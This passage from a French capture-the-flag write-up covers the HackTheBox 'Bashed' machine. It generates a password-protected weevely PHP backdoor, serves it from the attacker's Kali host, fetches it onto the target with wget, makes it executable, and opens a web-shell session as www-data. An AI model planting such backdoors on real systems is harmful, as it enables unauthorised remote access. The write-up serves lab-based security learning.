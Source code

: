 Générons un reverse shell :

```bash
root@kali:~/bashed# weevely generate s3cr3t $(pwd)/lol.php                                 
Generated backdoor with password 's3cr3t' in '/root/bashed/lol.php' of 1446 byte size.
```

Uploadons le sur la machine distante : 

```bash
#Depuis kali 
root@kali:~/bashed# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
10.10.10.68 - - [26/Apr/2018 21:29:57] "GET /lol.php HTTP/1.1" 200 -

#Depuis la cible
www-data@bashed:/var/www/html/dev# cd ../uploads
www-data@bashed:/var/www/html/uploads# wget http://10.10.14.11:8080/lol.php
--2018-04-26 12:29:56-- http://10.10.14.11:8080/lol.php
Connecting to 10.10.14.11:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1446 (1.4K) [application/octet-stream]
Saving to: 'lol.php'

0K . 100% 742K=0.002s

2018-04-26 12:29:56 (742 KB/s) - 'lol.php' saved [1446/1446]
Try 'chmod --help' for more information.
www-data@bashed:/var/www/html/uploads# chmod 777 lol.php
www-data@bashed:/var/www/html/uploads# ls -al
total 16
drwxrwxrwx 2 root root 4096 Apr 26 12:29 .
drw-r-xr-x 10 root root 4096 Dec 4 12:43 ..
-rwxrwxrwx 1 root root 14 Dec 4 12:44 index.html
-rwxrwxrwx 1 www-data www-data 1446 Apr 26 12:28 lol.php
```

Maintenant lançons le reverse shell depuis le navigateur via l'url : 

```bash
http://10.10.10.68/uploads/lol.php
```

Puis lançons weevely sur kali : 

```bash
root@kali:~/bashed# weevely http://10.10.10.68/uploads/lol.php s3cr3t

[+] weevely 3.2.0

[+] Target:     10.10.10.68
[+] Session:    /root/.weevely/sessions/10.10.10.68/lol_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
